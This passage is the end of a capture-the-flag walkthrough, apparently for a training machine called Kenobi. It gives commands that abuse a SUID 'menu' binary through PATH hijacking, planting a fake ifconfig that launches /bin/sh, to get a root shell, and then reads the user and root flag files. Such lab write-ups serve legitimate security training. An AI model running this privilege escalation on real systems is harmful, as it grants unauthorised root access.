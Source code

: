 **Output:**
```
/usr/bin/menu
```

### Step 8: Root Access
Use the menu binary to escalate privileges.

**Command/Code:**
```bash
/usr/bin/menu
```

**Output:**
```
1. status check
2. kernel version
3. ifconfig
4. exit
```

### Step 9: Exploit Menu Binary
Use the menu binary to gain root access.

**Command/Code:**
```bash
echo "/bin/sh" > /tmp/ifconfig
chmod +x /tmp/ifconfig
export PATH=/tmp:$PATH
/usr/bin/menu
```

### Step 10: Find Flags
Search for user and root flags.

**Command/Code:**
```bash
find / -name "*.txt" 2>/dev/null | grep -E "(user|root|flag)"
cat /home/kenobi/user.txt
cat /root/root.txt
```

**Output:**
```
[REDACTED]
[REDACTED]
```

## Solution

### Final Answer
- **User Flag**: [REDACTED]
- **Root Flag**: [REDACTED]

### Complete Walkthrough
1. Perform port scan to identify open services
2. Enumerate SMB shares for useful information
3. Access anonymous share and download log file
4. Use Metasploit ProFTPD exploit for initial access
5. Gain access as user 'kenobi'
6. Find privilege escalation via menu binary
7. Exploit PATH manipulation to gain root access
8. Find and extract flags
